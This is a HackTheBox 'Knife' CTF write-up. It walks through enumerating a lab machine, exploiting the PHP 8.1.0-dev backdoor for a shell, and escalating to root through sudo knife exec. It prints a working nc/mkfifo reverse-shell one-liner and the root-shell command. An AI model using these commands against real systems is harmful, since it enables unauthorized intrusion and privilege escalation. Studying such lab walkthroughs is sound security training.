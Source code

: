 ```yaml
---
title: "HackTheBox - Knife"
author: Nasrallah
description: ""
date: 2022-02-21 00:00:00 +0100
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, cve, sudo]
image:
  src: /assets/img/hackthebox/knife/card.png
  width: 1000
  height: 400
  alt:
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Knife](https://app.hackthebox.com/machines/347) from [HackTheBox](https://hackthebox.com), it's an easy machine where we find a vulnerable version of php running, use an exploit for that to gain access to the machine, after that, we exploit a binary that we can run as root to gain privileged access.

# **Enumeration**
## nmap

As usual, let's run a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

```terminal
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-31 15:44 EST
Nmap scan report for 10.10.10.242
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap shows that the machine has 2 open ports: 22(SSH) and 80(HTTP).

## HTTP

Let's navigate to the webpage.

![home](/assets/img/hackthebox/knife/home.png)

It looks like we have an Emergent Medical Idea application, but there is nothing interesting.

## Gobuster

Let's scan for directories and files using `Gobuster`.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.242                                 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/31 15:50:23 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

===============================================================
```

Nothing interesting here too.

## wappalyzer

Let's check the web page with Wappalyzer***(Wappalyzer is a browser extension that uncovers the technologies used on websites. It detects content management systems, eCommerce platforms, web servers, JavaScript frameworks, analytics tools and many more.)***

![wapp](/assets/img/hackthebox/knife/wapp.png)

Let's google these technologies and see if we can find any vulnerability.

![cve](/assets/img/hackthebox/knife/cve.png)

We found that `php 8.1.0-dev` has a Remote Code Execution vulnerability, let's download an exploit and see what we can do.

# **Foothold**

Let's run the exploit now.

```terminal
$ python3 php_exploit.py           
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james

```

Great! we got a shell as **james**, but this is not a functional shell, let's get one by executing a reverse shell command than sends us james shell.

```terminal
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

>Note: Change the ip address in the command to yours and set up a listener before executing the command!

```terminal
┌──(sirius㉿kali)-[~]
└─$ nc -lnvp 9001                                                                                                                                        1 ⨯
listening on [any] 9001 ...
connect to [10.10.17.90] from (UNKNOWN) [10.10.10.242] 41496
bash: cannot set terminal process group (1006): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
zsh: suspended  nc -lnvp 9001

┌──(sirius㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001

james@knife:/$
```

Now we have a fully functional shell.

# **Privilege Escalation**

Let's check what can we run as root.

```terminal
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```

We can run `knife` as root. We google knife binary and we find this [Documentation](https://docs.chef.io/workstation/knife/). When we look at the subcommands we see `exec`.

![exec](/assets/img/hackthebox/knife/exec.png)

With `exec` sub command, we can run ruby scripts. and with our ability to run knife as root, we can give it a ruby script that drops us a root shell.`exec "/bin/bash"`

```terminal
james@knife:~$ sudo knife exec
An interactive shell is opened

Type your script and do:

1. To run the script, use 'Ctrl D'
2. To exit, use 'Ctrl/Shift C'

Type here a script...
exec "/bin/bash"
root@knife:/home/james# whoami
root
root@knife:/home/james#
```
Great! We became root now.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
